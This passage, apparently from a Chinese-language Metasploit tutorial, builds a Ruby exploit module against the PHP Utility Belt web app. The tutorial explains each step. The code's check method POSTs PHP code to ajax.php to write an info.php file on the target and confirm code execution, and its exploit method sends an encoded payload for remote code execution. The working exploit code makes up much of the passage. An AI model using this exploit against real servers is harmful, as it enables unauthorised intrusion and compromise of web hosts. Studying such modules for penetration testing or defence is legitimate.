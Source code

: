 ```
        { 
          'Space'       => 2000, 
          'DisableNops' => true 
        }, 
      'Targets'        => 
        [ 
          ['PHP Utility Belt', {}] 
        ], 
      'DefaultTarget'  => 0 
    )) 

    register_options( 
      [ 
        OptString.new('TARGETURI', [true, 'The path to PHP Utility Belt', '/php-utility-belt/ajax.php']), 
   OptString.new('CHECKURI',[false,'Checking Purpose','/php-utility-belt/info.php']), 
      ]) 
  end 
```

我们可以看到，我们已经声明了所有必需的库，并在 initialize 部分中提供了必要的信息。因为我们正在利用一个基于 PHP 的漏洞，所以我们选择平台为 PHP。我们将`DisableNops`设置为 true 以关闭有效负载中的`NOP`使用，因为该漏洞攻击的目标是 web 应用中的远程代码执行漏洞，而不是基于软件的漏洞。我们知道该漏洞存在于`ajax.php`文件中。因此，我们向`ajax.php`文件声明了`TARGETURI`的值。我们还创建了一个名为`CHECKURI`的新字符串变量，它将帮助我们创建一个漏洞检查方法。让我们看一下漏洞的下一部分：

```
def check 
  send_request_cgi( 
      'method'    => 'POST', 
      'uri'       => normalize_uri(target_uri.path), 
      'vars_post' => { 
        'code' => "fwrite(fopen('info.php','w'),'<?php echo phpinfo();?>');" 
      } 
   ) 
  resp = send_request_raw({'uri' => normalize_uri(datastore['CHECKURI']),'method' => 'GET'}) 
  if resp.body =~ /phpinfo()/ 
   return Exploit::CheckCode::Vulnerable 
  else 
   return Exploit::CheckCode::Safe 
  end 
  end 
```

我们使用`send_request_cgi`方法以有效的方式适应`POST`请求。我们将 method 的值设置为`POST`，URI 设置为规范化格式的目标 URI，`POST`参数`CODE`的值设置为`fwrite(fopen('info.php','w'),'<?php echo phpinfo();?>');`。该有效负载将在编写代码时创建一个名为`info.php`的新文件，执行该代码时，将显示一个 PHP 信息页面。我们创建了另一个获取刚刚创建的`info.php`文件内容的请求。我们使用`send_request_raw`技术并将方法设置为`GET`。我们前面创建的`CHECKURI`变量将用作此请求的 URI。

我们可以看到，我们将请求的结果存储在`resp`变量中。接下来，我们将`resp`的主体与`phpinfo()`表达式匹配。如果结果为真，则表示在目标上成功创建了`info.php`文件，`Exploit::CheckCode::Vulnerable`的值将返回给用户，用户将显示一条消息，将目标标记为易受攻击。否则，将使用`Exploit::CheckCode::Safe`标记目标为安全。现在让我们跳到利用漏洞的方法：

```
  def exploit 
    send_request_cgi( 
      'method'    => 'POST', 
      'uri'       => normalize_uri(target_uri.path), 
      'vars_post' => { 
        'code' => payload.encoded 
      } 
    ) 
  end 
end 
```
